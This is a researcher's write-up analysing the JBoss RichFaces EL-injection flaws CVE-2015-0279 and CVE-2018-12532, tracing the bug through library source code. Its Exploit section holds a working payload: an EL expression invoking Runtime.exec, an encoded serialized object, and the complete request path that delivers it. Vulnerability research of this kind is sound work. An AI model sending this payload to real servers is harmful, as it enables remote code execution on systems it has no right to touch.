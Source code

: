 ## CVE-2015-0279

Author: lamnc2

Github: [kiven7299](https://github.com/kiven7299)





### Description

#### CVE-2015-0279

> **JBoss RichFacess before 4.5.4** allows remote attackers to inject expression language (EL) expressions and execute arbitrary Java code via the do parameter
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2015-0279)



#### CVE-2018-12532

> **JBoss RichFaces 4.5.3 through 4.5.17** allows unauthenticated remote attackers to inject an arbitrary expression language (EL) variable mapper and execute arbitrary Java code via a **MediaOutputResource's resource request**, aka RF-14309.
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2018-12532)



> Injection of arbitrary EL variable mapper allows to **bypass mitigation of CVE-2015-0279** and thereby remote code execution.
>
> [codewhitesec.blogspot.com](https://codewhitesec.blogspot.com/2018/05/poor-richfaces.html)



#### Conclusion

RichFaces from 4.5.3 to 4.5.17 has a vulnerability in `MediaOutputResource` that allows injecting arbitrary EL variable mapper.



### Find the vulnerable entry point

As stated in CVEs' description, the vulnerability is attempted to be patched in Richfaces4.5.4, so let's make a comparison between the two versions: https://github.com/richfaces/richfaces/compare/4.5.3.Final...richfaces:4.5.4.Final

Look for `MediaOutputResource`:

![image-20200403120539022](images/image-20200403120539022.png)

So the vulnerability is located in `richfaces-a4j:4.5.3:org.richfaces.resource.MediaOutputResource#encode()` method which calls `javax.el.MethodExpression#invoke()` to evaluate EL expression.





### Reach the vulnerable entry point

Refers to RichFaces Showcase for RichFaces 4.5.3.Final ([Github](https://github.com/richfaces/richfaces/tree/4.5.3.Final/examples/showcase))

> **RichFaces: Ajax enabled JSF 2.0 component library**
>
> **Online demo [http://showcase.richfaces.org](http://showcase.richfaces.org/)**
>
> RichFaces showcase is an application created to show **RichFaces components in action.** It contains a set of small use-cases implemented using RichFaces components.
>
> **Snapshot:**
>
> <img src="images/image-20200403170908356.png" alt="image-20200403170908356" style="zoom: 50%;" />



It implies that RichFaces Showcase application utilizes the *MediaOutputResource* dynamic resource builder. 

Inspects requests made by functions:

<img src="images/image-20200404170908347.png" alt="image-20200404170908347" style="zoom:50%;" />

<img src="images/image-20200404170926471.png" alt="image-20200404170926471" style="zoom:50%;" />

Make 2^nd^ request to locally-built web app ([Source code](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/vulnerable_app.rar)), see that it reaches the vulnerable entry point.

<img src="images/image-20200404174051025.png" alt="image-20200404174051025" style="zoom:50%;" />

<img src="images/image-20200406211010528.png" alt="image-20200406211010528" style="zoom:50%;" />

`contentProducer` is the EL to be evaluated which, as we can see, is set beforehand. Thus, we have to examine the application's workflow to know how `contentProducer` gains its value..

 

#### Examine the workflow

I make a standalone post on this subject: [RichFaces's resource handler]()

At the step of restoring a resource's state, specific to `MediaOutputResource`:

```java
//org.richfaces.resource.ResourceUtils    
public static void restoreResourceState(FacesContext context, Object resource, Object state) {
        if (state == null) {
            // transient resource hasn't provided any data
            return;
        }

        if (resource instanceof StateHolderResource) {
          ...
        } else if (resource instanceof StateHolder) {
            StateHolder stateHolder = (StateHolder) resource;
            stateHolder.restoreState(context, state);
        }
    }
```

```java
//public class MediaOutputResource extends AbstractUserResource implements StateHolder, CacheableResource 
public void restoreState(FacesContext context, Object stateObject) {
        Object[] state = (Object[])((Object[])stateObject);
        this.setCacheable((Boolean)state[0]);
        this.setContentType((String)state[1]);
        this.userData = UIComponentBase.restoreAttachedState(context, state[2]);
        this.contentProducer = (MethodExpression)UIComponentBase.restoreAttachedState(context, state[3]);
        this.fileName = (String)state[4];
    }
```



Variable `state` gains it value by deserialization in `org.richfaces.resource.ResourceUtils#decodeObjectData()`: 

```java
public static Object decodeObjectData(String encodedData) {
        byte[] objectArray = decodeBytesData(encodedData);

        try {
            ObjectInputStream in = new LookAheadObjectInputStream(new ByteArrayInputStream(objectArray));
            return in.readObject();
        } catch (StreamCorruptedException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.STREAM_CORRUPTED_ERROR), e);
        } catch (IOException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DESERIALIZE_DATA_INPUT_ERROR), e);
        } catch (ClassNotFoundException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DATA_CLASS_NOT_FOUND_ERROR), e);
        }

        return null;
    }
```

![image-20200410002420187](images/image-20200410002420187.png)

- `state[3].orig`: EL expression to be evaluated

  

In next step, response (images, videos, tables, …) is made for users by calling, in this case, `MediaOutputResource.decode()` which is the vulnerable entry point.

```java
public void encode(FacesContext facesContext) throws IOException {
        OutputStream outStream = facesContext.getExternalContext().getResponseOutputStream();
        this.contentProducer.invoke(facesContext.getELContext(), new Object[]{outStream, this.userData});
    }
```

`contentProducer` is the EL expression to be evaluated.

![image-20200410004340262](images/image-20200410004340262.png)



#### Conclusion

- Make serialized object of  that:

  ```java
  // * is a must
  Object[5]: java.lang.Object
  	[0]*: Boolean - is cacheable
  	[1]: String - contentType of the response
  	[2]: StateHolderSaver
  		savedState: existed class (existed in application) - used as param to MethodExpression
      [3]*: StateHolderSaver
      	savedState: MethodExpression - EL expression to inject
  					
  ```

- `Deflate` encrypting. Use encryption functions provided by RichFaces  in `ResourceUtils`

- Payload: `GET /rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=<serialized object>`





### Exploit

#### Craft payload

Makes an web application that gets an EL expression as input and return string representing serialized object. Source code here [Github](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/payload_generator.rar)

<img src="images/image-20200410165221092.png" alt="image-20200410165221092" style="zoom: 33%;" />

EL expression to execute OS command:

```java
#{request.getClass().getClassLoader().loadClass("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("calc.exe")}
```

Serialized object:

```java
eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```

Final payload:

```java
/rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```



#### PoC

Video demo: https://drive.google.com/open?id=1-5JAxk5jDNCmX0eWXFMAiZot62b-WZbf


